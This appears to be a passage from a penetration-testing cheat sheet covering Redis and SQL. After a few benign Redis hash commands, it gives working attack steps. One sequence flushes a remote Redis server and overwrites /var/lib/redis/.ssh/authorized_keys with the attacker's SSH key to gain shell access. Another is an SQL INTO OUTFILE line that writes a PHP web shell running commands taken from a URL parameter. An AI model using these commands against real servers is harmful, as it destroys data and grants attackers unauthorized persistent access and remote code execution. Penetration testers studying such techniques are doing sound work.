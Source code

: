 #### Examples

##### Add User

```console
redis /run/redis/redis.sock> HSET barfoo username foobar
redis /run/redis/redis.sock> HSET barfoo first-name foo
redis /run/redis/redis.sock> HSET barfoo last-name bar
redis /run/redis/redis.sock> HGETALL barfoo
```

##### Retrieve a specific Value

```console
redis /run/redis/redis.sock> KEYS *
redis /run/redis/redis.sock> SELECT 1
redis /run/redis/redis.sock> TYPE <VALUE>
redis /run/redis/redis.sock> HKEYS <VALUE>
redis /run/redis/redis.sock> HGET <VALUE> password
```

### Enter own SSH Key

```console
$ redis-cli -h <RHOST>
$ echo "FLUSHALL" | redis-cli -h <RHOST>
$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt
$ cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key
<RHOST>:6379> get s-key
<RHOST>:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
<RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
<RHOST>:6379> CONFIG SET dbfilename authorized_keys
OK
<RHOST>:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
<RHOST>:6379> save
OK
```

## SQL

### Write to File

```console
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/PATH/TO/FILE/<FILE>'
```

## sqlcmd
